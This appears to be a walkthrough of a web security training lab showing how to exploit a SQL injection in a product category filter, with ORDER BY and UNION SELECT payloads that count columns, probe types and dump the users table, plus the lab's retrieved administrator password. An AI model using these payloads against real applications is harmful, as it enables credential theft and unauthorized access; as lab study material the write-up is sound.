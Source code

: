 # Description:
 
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

# Analysis:

SQL Injection - Product category filter.

End Goal - Output the usernames and passwords in the users table and login
as the administrator user.

### We need to make three steps to resolve this lab, two preliminary and one retrieving the information that we need:
    1) - Determine the number of columns that the vulnerable query is using.
        query = ' order by 1--
        query = ' order by 2--
        query = ' order by 3-- 
            -> err -> There are two columns because it failed at three.
        
        Number of columns: 2.
    
    
    2) - Determine the data type of the columns.
        query thas is being made to the backend: 
            select a, b from producst where category='Gifts'
        
        query using the union attack:
            ' UNION select 'a', NULL--
            ' UNION select NULL, 'a'--

            Both columns are of data type string.
    
    3) - query:
        ' UNION select username, password from users--

        Now we have the administrator and the password:
            username: administrator
	        password: 7p147uglukj4zpgreb9q

